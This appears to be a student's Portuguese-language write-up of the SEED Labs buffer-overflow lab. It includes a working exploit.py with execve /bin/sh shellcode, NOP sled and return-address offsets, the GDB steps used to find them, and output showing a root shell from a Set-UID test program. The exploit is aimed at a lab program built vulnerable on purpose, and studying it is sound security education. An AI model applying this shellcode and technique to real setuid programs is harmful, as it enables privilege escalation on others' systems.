


# SEED Labs – Buffer Overflow Attack Lab (Set-UID Version)

## Task 1: Getting Familiar with Shellcode

Depois de correr a32.out, o shellcode é executado com sucesso a partir da stack criando uma nova sessão shell sem privilégios root.

```bash
[10/22/24]seed@VM:~/.../shellcode$ make all
gcc -m32 -z execstack -o a32.out call_shellcode.c
gcc -z execstack -o a64.out call_shellcode.c
[10/22/24]seed@VM:~/.../shellcode$ ./a32.out 
$ id                                                     
uid=1000(seed) gid=1000(seed) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
$ whoami
seed
```

No entanto, ao alterar a ownership para root e torná-lo um programa Set-UID a sessão shell tem privilégios root - euid=0(root).

```bash
[10/22/24]seed@VM:~/.../shellcode$ make setuid
gcc -m32 -z execstack -o a32.out call_shellcode.c
gcc -z execstack -o a64.out call_shellcode.c
sudo chown root a32.out a64.out
sudo chmod 4755 a32.out a64.out
[10/22/24]seed@VM:~/.../shellcode$ ./a32.out 
# id                                                                
uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker) 
# whoami
root
```

Tal como no guião anterior, isto só é possível alterando o comando /bin/sh para apontar para /bin/zsh e neste caso também é necessário usar a opção execstack na compilação de modo a executar código a partir da stack.

## Task 2: Understanding the Vulnerable Program

Alterou-se o valor da variável L1 da Makefile para 140 (100+8*5), assim BUF_SIZE será 140 bytes que é inferior a 517, tamanho do input (ficheiro badfile). De seguida, compilou-se o programa correndo make stack-L1.

```bash
[10/22/24]seed@VM:~/.../code$ vi Makefile
[10/22/24]seed@VM:~/.../code$ make stack-L1
gcc -DBUF_SIZE=140 -z execstack -fno-stack-protector -m32 -o stack-L1 stack.c
gcc -DBUF_SIZE=140 -z execstack -fno-stack-protector -m32 -g -o stack-L1-dbg stack.c
sudo chown root stack-L1 && sudo chmod 4755 stack-L1
```

## Task 3: Launching Attack on 32-bit Program (Level 1)

Usando a sequência de comandos do GDB sugerida no guião foi possível imprimir (através do comando p) o valor do frame pointer `ebp` e o endereço do `buffer`. Uma vez que o valor do `frame pointer` é 0xffffcb08, podemos concluir que o `return address` está guardado em 0xffffcb08 + 4 (4 bytes acima). Assim a `distância` entre o endereço base do `buffer` e o `return address` será a distância entre o ebp e o buffer mais 4, ou seja, (0xffffcb08 - 0xffffca74) + 4 = 148 + 4 = `152`.  

```bash
gdb-peda$ p $ebp
$1 = (void *) 0xffffcb08
gdb-peda$ p &buffer
$2 = (char (*)[140]) 0xffffca74
gdb-peda$ p/d 0xffffcb08 - 0xffffca74
$3 = 148
```

Com estes dados é possível criar o ficheiro `badfile`, adaptando a template de exploit no ficheiro `exploit.py`. Abaixo está a estrutura do badfile (esta imagem foi adaptada do SEED book).



O conteúdo do array `shellcode[]` (código malicioso) é uma cópia do shellcode 32-bit fornecido na task 1. O shellcode foi colocado no fim do payload, isto é, no fim do array de 517 bytes preenchido com 0x90 (NOP). Logo, `start` será 517 - len(shellcode).

A primeira entrada possível para o código malicioso (NOP slide) seria 0xffffcb08 + 8, contudo, tendo em conta as diferenças de variáveis dentro e fora do GDB, o endereço para qual iremos saltar terá de ser superior a 0xffffcb08 + 8. O `valor` do `return address` escolhido foi `0xffffcb08 + 150`. Este foi escolhido via tentativa e erro e garante a condição do resultado de 0xffffcb08 + nnn não conter nenhum byte a zero, caso contrário o badfile teria um zero pelo meio e a função strcpy() iria terminar antes do esperado. Por exemplo, +120 (como está no SEED Book) não seria possível, mas +121 já seria e funcionaria tal como +150. O `offset` utilizado corresponde à `distância` calculada acima. 

exploit.py
```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode) # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb08 + 150 # Change this number 
offset = 152              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Verifica-se que ao correr o programa `stack-L1` temos acesso a uma root shell.

```sh
[10/24/24]seed@VM:~/.../code$ ./exploit.py 
[10/24/24]seed@VM:~/.../code$ ./stack-L1
Input size: 517
# id                                                       
uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
```

Após ter criado o ficheiro badfile que permite realizar o ataque com sucesso, utilizou-se o GDB para visualizar parte da região de memória sobre a qual ocorreu o overflow. No GDB, depois de executar o strcpy vulnerável, podemos examinar os primeiros 150 (> 517 / 4) endereços de 32 bits a começar em  &buffer, visualizados em hexadecimal:



Mais uma vez, podemos confirmar que o endereço base do `buffer` é `0xffffca74` e o `valor` do `return address` escolhido foi `0xffffcb9e` (0xffffcb08 + 150), que se encontra 152 bytes depois de 0xffffca74. O endereço para qual iremos saltar encontra-se algures na segunda zona assinalada, onde se encontra um NOP slide até ao shellcode.
